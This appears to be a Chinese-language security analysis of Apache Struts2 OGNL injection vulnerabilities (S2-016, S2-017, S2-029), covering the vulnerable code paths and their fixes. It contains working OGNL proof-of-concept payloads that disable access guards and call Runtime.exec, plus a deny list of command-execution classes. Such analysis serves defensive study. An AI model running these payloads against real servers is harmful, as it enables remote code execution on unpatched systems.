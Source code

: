 ```
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#f=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#f.setAccessible(true),#f.set(#_memberAccess,true),@java.lang.Runtime@getRuntime().exec('open -a Calculator.app')}.action
```
第二种，HttpHeaderResult对头部信息进行处理，同样会走到`TextParseUtil.translateVariables()`进行解析
```
<result type="httpheader">
    <param name="headers.foobar">${message}</param>
</result>
```

### S2-016
问题出在DefaultActionMapper，它会寻找请求匹配的路径。
```
redirect:%{#f=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#f.setAccessible(true),#f.set(#_memberAccess,true),@java.lang.Runtime@getRuntime().exec('open -a Calculator.app')}
```
`DefaultActionMapper.handleSpecialParameters()`会对特殊前缀进行处理，包括`method:`、`action:`、`redirect:`或`redirectAction:`，将导航信息附加到表单中。后续也会调用到`TextParseUtil.translateVariables()`，对前缀后的内容将逆行OGNL计算。

S2-017和这个漏洞是一个了，只不过是重定向漏洞，在`redirect:`后面加上url链接。

修复时，`action:`、`redirect:`或`redirectAction:`，action增加了正则匹配。后两个在 DefaultActionMapper中直接被删除了。

### S2-029
S2-001用到了`<s:textfield name="password"/>`，然后对传入值进行二次解析造成了漏洞。S2-029同样是由于`textfield`标签。但是需要在name字段写成如下形式
```
<s:textfield name="%{message}"></s:textfield>
```
这样`UIBean.evaluateParams()`在对标签进行解析时，对name依次进行`findString()、findValue()、TextParseUtil.translateVariables()`。由于name本身是被`%{}`包裹的。会将name对应的传入值取出。然后在后续的步骤中对值进行解析。这样就避免了单次执行递归解析的限制。分成两次进行解析。
```
if (this.name != null) {
    name = this.findString(this.name);  // (1) %{message}取出message对应的值
    this.addParameter("name", name);
}
...
 if (this.parameters.containsKey("value")) {...}
 else if (this.evaluateNameValue()) {
    Class valueClazz = this.getValueClassType();
    if (valueClazz != null) {
	if (this.value != null) {
	    this.addParameter("nameValue", this.findValue(this.value, valueClazz)); // (2) 对message的值进行OGNL解析
	} 
    }
}
```
在S2-029修复时在struts.excludedClasses属性中增加了很多限制，如下的类都被列入到黑名单中（参照`struts-default.xml`），禁止调用命令执行常用类，并禁止调用SecurityMemberAccess。
```
java.lang.Object,
java.lang.Runtime,
java.lang.System,
java.lang.Class,
java.lang.ClassLoader,
java.lang.Shutdown,
java.lang.ProcessBuilder,
ognl.OgnlContext,
ognl.ClassResolver,
ognl.TypeConverter,
com.opensymphony.xwork2.ognl.SecurityMemberAccess, 
com.opensymphony.xwork2.ActionContex
```
